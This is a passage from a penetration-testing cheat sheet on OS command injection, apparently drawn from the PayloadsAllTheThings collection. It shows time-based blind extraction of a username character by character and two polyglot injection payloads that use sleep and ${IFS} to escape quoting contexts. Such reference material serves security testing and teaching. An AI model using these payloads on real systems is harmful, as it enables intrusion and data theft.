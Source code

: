 ### Data Exfiltration

{% tabs %}
{% tab title="Time based" %}
We may extract data char by char

```bash
swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
real    0m5.007s
user    0m0.000s
sys 0m0.000s

swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
real    0m0.002s
user    0m0.000s
sys 0m0.000s
```
{% endtab %}

{% tab title="DNS based" %}
For DNS based exfiltration, you may see [this page](../../../redteam/exfiltration/dns.md).
{% endtab %}
{% endtabs %}

### Polyglot command injection <a href="#user-content-polyglot-command-injection" id="user-content-polyglot-command-injection"></a>

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

{% tabs %}
{% tab title="Example 1" %}
```bash
Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

# Context inside commands with single and double quote:
echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
```
{% endtab %}

{% tab title="Example 2" %}
```bash
Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

# Context inside commands with single and double quote:
echo 1/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/
echo "YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/"
echo 'YOURCMD/*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/'
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/Command_Injection" %}

{% embed url="https://portswigger.net/web-security/os-command-injection" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection" %}
